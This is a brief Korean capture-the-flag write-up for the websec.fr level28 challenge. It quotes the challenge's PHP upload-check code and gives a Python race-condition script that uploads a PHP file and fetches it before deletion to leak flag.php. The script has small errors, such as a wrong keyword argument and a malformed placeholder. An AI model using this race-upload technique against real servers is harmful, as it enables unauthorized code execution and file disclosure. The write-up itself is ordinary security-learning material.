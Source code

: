 ```php
  if (md5_file($filename) === md5_file('flag.php') && $_POST['checksum'] == crc32($_POST['checksum'])) {
    include($filename);  // it contains the `$flag` variable
    } else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }  
unlink($filename);
}
```

이걸 확인하면 그냥 $_POST['checksum'] == crc32($_POST['checksum'] 부분은 쉽게 우회가 가능하다. 근데 md5는 어케할지 모르겠다. 그러던중 unlink()를 하고 sleep(1) 을 해줘서 레이스컨디션을 하기에 충분해보였다.

flag.php 코드를 작성한다.  Burp Repeater로도 해결이 가능하지만, 강의중엔 burp suite를 사용할 수 없어서 그냥 코드를 작성했다.

```python
import requests
import hashlib
from multiprocessing import Process

file={'flag_file':('flag.php','<?php show_source("flag.php");?>')}
data={'submit':'hi'}
url='http://websec.fr/level28/index.php'
url2='http://websec.fr/level28/'+hashlib.md5('{ip}}').hexdigest()+'.php'

def upload():
    resp=requests.post(url,data=data,file=file)
def getpass():
    resp=requests.get(url2)
    print(resp.content)
prob=Process(target=upload)
prob2=Process(target=getpass)
prob.start()
prob2.start()
```

해결